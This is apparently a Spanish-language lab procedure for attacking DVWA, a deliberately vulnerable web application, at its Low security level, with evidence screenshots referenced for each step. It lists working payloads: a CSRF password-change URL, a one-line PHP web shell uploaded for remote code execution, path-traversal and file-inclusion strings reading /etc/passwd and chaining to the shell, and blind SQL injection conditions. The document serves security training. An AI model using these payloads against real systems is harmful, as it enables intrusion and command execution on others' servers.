

# Procedimiento del FC-LAB-010

Todas las pruebas se hacen en el nivel de seguridad Low. Cada paso indica la captura que lo evidencia en `../evidencias/`.

## Preparación

| Paso | Acción | Evidencia |
| --- | --- | --- |
| 1 | Levantar DVWA con `../scripts/levantar-dvwa.sh` e iniciar sesión. | 01 |
| 2 | Confirmar el entorno en la página de bienvenida. | 02 (bienvenida) |

## Pruebas

| Parte | Módulo | Entrada normal | Carga de prueba | Resultado observado | Evidencia |
| --- | --- | --- | --- | --- | --- |
| 2 | CSRF | Cambio de contraseña por el formulario | Abrir en otra pestaña la URL `?password_new=…&password_conf=…&Change=Change` | La contraseña cambia sin el formulario, sin token ni validación de origen, solo con la sesión activa | 02-csrf, 02.1 |
| 3 | File Upload | Subir una imagen | Subir `shell.php` (`<?php system($_GET['cmd']); ?>`) y abrirlo con `?cmd=…` | El servidor acepta el archivo y lo ejecuta como `www-data`: RCE | 03 a 03.4 |
| 4 | File Inclusion | `?page=file1.php` | `?page=/etc/passwd` y `?page=../../hackable/uploads/shell.php&cmd=…` | Lee archivos del sistema y ejecuta el `shell.php` subido: RCE encadenado; la petición sin `fi/` expone el listado de directorios de Apache | 04 a 04.5 |
| 5 | SQL Injection (Blind) | `1` → exists | `1' AND 1=2 #`, `1' AND database() IS NOT NULL #`, `1' AND database()='dvwa' #` | La respuesta cambia entre «exists» y «missing» según la condición: oráculo booleano que permite inferir el nombre `dvwa` | 05.1 a 05.3 |

## Encadenamiento

La subida sin restricciones (parte 3) y la inclusión local (parte 4) se combinan: el `shell.php` subido se ejecuta tanto de forma directa (`/hackable/uploads/shell.php`) como a través de la inclusión (`?page=../../hackable/uploads/shell.php`), con ejecución en el contexto del script vulnerable.

## Cierre

Detener el contenedor con `Ctrl+C`; al usar `--rm` se elimina con sus datos.
